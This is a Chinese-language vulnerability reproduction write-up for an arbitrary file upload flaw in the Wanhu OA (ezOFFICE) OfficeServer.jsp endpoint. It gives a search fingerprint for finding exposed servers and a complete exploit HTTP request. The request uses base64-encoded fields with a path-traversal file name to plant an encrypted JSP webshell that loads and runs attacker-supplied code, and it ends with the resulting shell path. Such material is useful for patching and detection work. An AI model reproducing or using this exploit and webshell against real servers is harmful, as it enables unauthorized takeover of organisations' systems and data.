 # 万户OA OfficeServer.jsp 任意文件上传漏洞

## 漏洞描述

万户OA 除了 /defaultroot/officeserverservlet 接口外的另一处接口 OfficeServer.jsp 同时也存在任意文件上传漏洞，导致攻击者可上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-9184293.png)

发送请求包

```php
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: OASESSIONID=847AE3A2E5D155AE7FB1CD2C6736CD66
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Length: 798
		
DBSTEP V3.0     170              0                1000              DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Li4vLi4vcHVibGljL2VkaXQvY21kX3Rlc3QuanNw
111111111111111111111111111111111111111111111111
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```

![img](../../../.vuepress/public/img/1634184155442-27890b10-20af-48cf-9032-fe50d08582f0.png)

上传后的目录为

```php
/defaultroot/public/edit/cmd_test.jsp
```

![img](../../../.vuepress/public/img/1634194405078-7d6f402f-9f16-43ae-b43a-8be6dbb48895.png)